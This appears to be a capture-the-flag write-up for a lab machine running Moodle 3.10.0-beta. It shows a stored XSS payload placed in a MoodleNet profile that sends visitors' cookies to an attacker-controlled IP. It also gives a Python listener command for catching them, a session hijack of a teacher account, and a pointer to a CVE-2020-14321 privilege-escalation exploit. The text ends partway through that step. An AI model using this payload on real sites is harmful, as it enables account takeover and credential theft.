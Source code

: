 Moodle version 3.10.0-beta is vulnerable to various XSS issue per <https://snyk.io/vuln/composer:moodle%2Fmoodle>.

### Moodle XSS

Per the following discussion post left behind by "Manuel Phillips", he is checking all "MoodleNet" profiles before the course start date. We can edit our MoodleNet profile to a XSS oayload that will grab the cookies of anyone that routes to your profile page, we can then use the gathered authentication cookies to log in as Manuel Phillips.

Let's set our profile with the following: (Change the IP to yours)
`<script>document.location='http://10.10.16.26:8000/index.php?c='+document.cookie</script>`

Start a python server to capture the stolen cookie:
`python3 -m http.server 8000`

Now after we capture the cookie, change the stored "MoodleSession" cookie on your browser and you should now have access to the Teacher account (Manuel Phillips).

![Replacing Moodle Session cookie](/assets/images/writeups/schooled_stolencookie.png)

Now we will follow <https://github.com/HoangKien1020/CVE-2020-14321>, to grant an account "Manager" role and gives us access to create a vulnerable plugin that will grant us remote code execution (RCE).

Let's go to "Participants" and click on "Enrol users", now we get prompted to add `Lianne Carter` with student role:

![Remote Code Execution](/assets/images/writeups/schooled_rce.png)
